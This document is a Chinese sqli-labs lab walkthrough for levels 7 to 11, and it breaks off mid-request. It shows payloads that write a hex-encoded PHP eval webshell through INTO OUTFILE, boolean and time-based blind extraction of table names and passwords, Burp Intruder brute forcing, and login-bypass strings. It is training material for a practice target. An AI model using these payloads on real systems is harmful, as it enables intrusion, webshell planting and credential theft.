**secure-file-priv** 参数是用来限制 LOAD DATA, SELECT … OUTFILE, and LOAD_FILE() 传到哪个指定目录的

* secure_file_priv 的值为 null ，表示限制 mysqld 不允许导入|导出
* secure_file_priv 的值为/tmp/，表示限制 mysqld 的导入|导出只能发生在/tmp/目录下
* secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制

MySQL 使用以下命令查看是否打开文件写入开关

```sql
show global variables like '%secure%';
```



修改 my.ini 添加 secure-file-priv 参数,没有填具体值表示不做限制（这样做其实很危险）



重启 MySQL 即可。

#### 写文件思路（需权限）

outfile 后面的路径必须真实存在缺正确才能生效。

```latex
?id=-1')) union select 1,'<?php phpinfo(); ?>',3 into outfile '/var/www/html/shell.php'--+
```

```latex
?id=-1')) union select 1,'<?php phpinfo(); ?>',3 into outfile 'C:\\Users\\Windows10\\Downloads\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\phpinfo.php'--+
```

建议最好使用加密编码过的，以防拦截。

0x后面是<?php phpinfo(); ?>的十六进制编码(Hex编码)

编码网站：<http://www.hiencode.com/hex.html>

```latex
?id=-1')) union select 1,'0x3c3f70687020706870696e666f28293b203f3e',3 into outfile 'C:\\Users\\Windows10\\Downloads\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\phpinfo.php'--+
```



访问写入的文件即可看到生效了。



上传一句话木马

```latex
?id=-1')) union select 1,'<?php @eval($_POST["cmd"]); ?>',3 into outfile 'C:\\Users\\Windows10\\Downloads\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\webshell.php'--+


#编码后的语句
?id=-1')) union select 1,'0x3c3f70687020406576616c28245f504f53545b22636d64225d293b203f3e',3 into outfile 'C:\\Users\\Windows10\\Downloads\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\webshell.php'--+
```



通过蚁剑去连接，获取 webshell。





**常见失败原因：**

* `secure_file_priv` 限制路径
* 数据库账号无 `FILE` 权限
* Web 路径猜错或不可写

#### 无写权限时

按 Less-1/3 方式联合或报错取 `users` 数据即可完成本关学习目标（读数据 + 理解 outfile 条件）。

#### 要点小结

生产环境应禁止高权限、禁止随意 `outfile`；本关重点是**条件与风险**，不是强求一定写出 shell。

***

### Less-8：GET · 布尔盲注

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 回显 | 真/假页面不同（有/无 You are in 等），无详细数据字段 |
| 报错 | 通常不暴露有用 SQL 错误 |
| 手法 | 布尔盲注（逐字猜） |

#### 解题步骤

**1）确认布尔差异**

```latex
?id=1' and 1=1--+
?id=1' and 1=2--+
```

记下「成功页」与「失败页」的区别（文案、长度、关键词）。





**2）猜库名长度**

```latex
?id=1' and length(database())=8--+
```

（`security` 长度为 8，可用来验证方法。）


**3）逐字符猜库名**

```latex
?id=1' and substr(database(),1,1)='s'--+
?id=1' and substr(database(),2,1)='e'--+
```

或用 `ascii(substr(database(),1,1))>115` 做二分。





**4）猜表名 / 列名 / 数据**

逻辑相同，把子查询换成：

```sql
(select table_name from information_schema.tables where table_schema=database() limit 0,1)
(select column_name from information_schema.columns where table_name='users' limit 0,1)
(select password from users limit 0,1)
```

猜解表名长度：

```latex
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+
```



猜解表名第一个字符（假设表名是 users）：

```latex
?id=1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='u'--+
```

(如果页面显示 `You are in`，说明第一个字符是 'u'，否则继续换字母尝试)

判断长度后，再逐字符猜：

```plain
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>120 --+
```

爆字段名

```plain
?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))>5 --+

?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>100 --+
```



爆字段内容

```plain
?id=1' and length((select password from users limit 0,1))=32 --+

?id=1' and ascii(substr((select password from users limit 0,1),1,1))>97 --+
```

#### BurpSuite 抓包

获取数据库名

```plain
?id=1' and substr(database(),1,1)='s'--+
```



通过 BurpSuite 抓包，并发送到 Intruder。攻击类型选择“ClusterBomb”（集束炸弹）。并且选择添加好 payload 点。



在 Payload set 1 这里选择 Numbers（数值），并且 From 写 1，To 写 128，Step（增量）写 1。



在 Payload set 2 这里选择 Brute forcer（蛮力），下面的 Min length（最短）写 1，Max length（最长）写 1。



开始攻击



点击 Filter（过滤器），在下面的 Filter by search term（按搜索字词过滤）里面输入“You are in”。点击空白位置即可点掉。



点击一次 Payload1，按顺序排序，即可拼凑出数据库名为“security”。



以此类推，就可以查询出所有的表名与字段名。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 核心 | 用真假页当「1 bit」信息 |
| 效率 | 手注慢，练习时可用 Python 二分 |
| 闭合 | 本关一般为 `'` |

***

### Less-9：GET · 时间盲注（单引号）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 回显 | 真假页面**几乎一样** |
| 判断依据 | 响应是否明显变慢（`sleep`） |
| 闭合 | 单引号 `'` |

#### 解题步骤

**1）确认延时可用**

```latex
?id=1' and sleep(5)--+
?id=1' and if(1=1,sleep(5),0)--+
?id=1' and if(1=2,sleep(5),0)--+
```

若 `1=1` 时明显等待、`1=2` 时很快，说明时间盲注成立。



**2）猜库名（示例）**

```latex
?id=1' and if(length(database())=8,sleep(3),0)--+
?id=1' and if(substr(database(),1,1)='s',sleep(3),0)--+
```



**3）后续**

与布尔盲注相同，把条件换成表名、列名、字段值；用延时代替页面真假。

```plain
?id=1' and if(ascii(substr(database(),1,1))>115, 0, sleep(5))--+
```


爆表名：

```plain
?id=1' and  if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',sleep(5),1) --+
```

爆列名

```plain
?id=1' and  if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)>'e',sleep(5),1) --+
```

具体数据

```plain
?id=1' and  If(ascii(substr((select password from users limit 0,1),1,1))<101,sleep(5),1) --+
```

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 网络波动 | `sleep(3~5)` 较易区分；过短易误判 |
| 自动化 | 强烈建议脚本，按字符枚举 |
| 函数 | `sleep()` / `if(条件,sleep(n),0)` |

***

### Less-10：GET · 时间盲注（双引号）

#### 关卡信息

与 Less-9 相同（时间盲注），闭合改为**双引号**。

#### 解题步骤

```latex
?id=1" and sleep(5)--+
?id=1" and if(1=1,sleep(5),0)--+
?id=1" and if(substr(database(),1,1)='s',sleep(3),0)--+
```

取表、列、数据时保持 `"` 闭合与 `--+` 注释即可。


#### 要点小结

先用 `"` 与 `sleep` 确认通道，再复用 Less-9 的猜解过程。

***

### Less-11：POST · 单引号字符型 · 登录框

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-11/` |
| 注入方式 | POST（表单提交） |
| 常见参数 | `uname`（用户名）、`passwd`（密码） |
| 类型 | 字符型（单引号包裹） |
| 有无报错回显 | 有（语法错误常会显示） |
| 典型 SQL 形态 | `... WHERE uname='$uname' AND passwd='$passwd'` |

#### 源码逻辑（理解用）

登录逻辑把用户名、密码直接拼进 SQL，未做有效过滤。在用户名处闭合单引号，即可改写查询条件，实现绕过登录或联合/报错取数。

#### 解题步骤

**1）确认注入点**

在登录框用户名处输入：

```latex
admin'
```

密码随意，提交。

* 若出现 MySQL 语法错误 → 用户名参数可注入
* 也可对密码框做同样测试，确认哪个参数进了 SQL


**2）绕过登录（验证注入）**

用户名：

```latex
admin' or '1'='1' --+
```

或：

```latex
admin' or 1=1 --+
```

密码任意。

说明：`--+` 注释掉后面的密码条件，使 `or` 条件恒真，可能直接以某用户身份登录成功。

更稳妥的「永真」写法（视实际拼接微调）：

```latex
' or '1'='1' --+
```


**3）判断列数（联合查询前）**

若页面登录成功后有回显字段，可用联合；否则先抓包用报错或看回显。

在用户名处（POST body）：

```latex
uname=-1' order by 1 --+&passwd=1
uname=-1' order by 2 --+&passwd=1
uname=-1' order by 3 --+&passwd=1
```

也可用 Burp 改 POST 数据。`order by 2` 成功、`3` 失败 → 多为 2 列（与前几关 users 查询类似）。


**4）联合查询找显示位**

```latex
uname=-1' union select 1,2 --+&passwd=1
```

观察登录后页面哪些位置出现 `1`、`2`。


**5）查库、表、数据**

```latex
uname=-1' union select 1,database() --+&passwd=1
```


```latex
uname=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='security' --+&passwd=1
```


```latex
uname=-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+&passwd=1
```


```latex
uname=-1' union select 1,group_concat(username,0x3a,password) from users --+&passwd=1
```


**6）用报错取数（联合不回显时）**

```latex
uname=admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+&passwd=1
```


```latex
uname=admin' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+&passwd=1
```


#### 抓包示例（Burp）

```http
POST http://192.168.3.3/sqli-labs/Less-11/ HTTP/1.1
